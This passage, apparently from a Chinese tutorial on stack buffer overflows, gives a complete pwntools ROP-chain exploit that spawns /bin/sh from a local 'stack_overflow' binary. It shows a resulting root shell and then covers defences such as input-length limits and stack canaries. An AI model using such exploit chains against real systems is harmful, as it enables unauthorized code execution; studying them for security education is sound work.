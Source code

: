 漏洞利用：

```python
from pwn import *
from struct import pack
context.arch='i386'

p = ''
p += pack('<I', 0x0806ec4a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b7f96) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0805467b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ec4a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b7f96) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0805467b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ec4a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049443) # xor eax, eax ; ret
p += pack('<I', 0x0805467b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de66d) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ec4a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049443) # xor eax, eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0807a62f) # inc eax ; ret
p += pack('<I', 0x0806c8c5) # int 0x80

payload = 'A'*(0x88+0x4) + p
p = process('./stack_overflow')
p.send(payload)
sleep(0.1)
p.interactive()
```

运行结果：

```s
root@nop-pwn:~/Desktop# python exp.py
[+] Starting local process './stack_overflow': pid 3250
[*] Switching to interactive mode
$ whoami
root
$  
```

#### 防范-不开启cananry

最直接的办法就是限制输入长度，即让程序没法产生溢出，此外采取动态编译的形式即程序运行时使用动态链接库的方式运行，这样可以避免直接通过程序来生成 rpochain 的情况。

限制输入长度不是每次都能考虑周到，在不限制程序输入长度的情况下同样可以通过开启canary保护的措施来在一定程度上避免缓冲区溢出的攻击。

#### 保护全开的情况
